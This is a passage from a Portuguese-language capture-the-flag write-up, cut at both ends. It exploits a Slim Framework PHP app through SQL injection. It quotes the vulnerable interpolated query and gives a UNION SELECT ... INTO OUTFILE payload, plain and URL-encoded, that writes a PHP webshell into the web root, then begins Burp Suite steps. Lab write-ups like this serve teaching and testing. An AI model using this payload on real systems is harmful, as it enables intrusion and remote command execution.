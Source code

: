 ```bash
curl http://<IP-ALVO>/_ul/usuarios/1
```

Você recebe um JSON com os dados do usuário 1.  
Testando `id=2`, ele revela uma **flag**.

---

## 🔹 **PASSO 5 – Entendendo o backend (Slim Framework)**

Via code review (em um `backup.zip` baixado da aplicação), o write-up mostra que:

```php
$app->get('/_ul/usuarios/{id}', function ($request, $response, $args) {
    $sql = "SELECT * FROM usuarios WHERE id = $args[id]";
    ...
});
```

🔴 **Vulnerável a SQL Injection**, pois **não usa prepared statements**.

---

## 🔹 **PASSO 6 – SQL Injection para RCE**

### 🎯 Objetivo: escrever uma **webshell PHP** no servidor usando SQLi + `INTO OUTFILE`.

---

### 1. Payload original:

```sql
3 UNION SELECT 1,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/classes/vert16x.class.php'
```

---

### 2. Encodar com URL Encode

Usando [https://www.urlencoder.io/](https://www.urlencoder.io/), o resultado é:

```
3%20UNION%20SELECT%201%2C%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fvert16x.class.php%27
```

---

### 3. Enviar via **Burp Suite** (como no PDF)

- Abra o **Burp Suite**
    
- Intercepte o navegador
    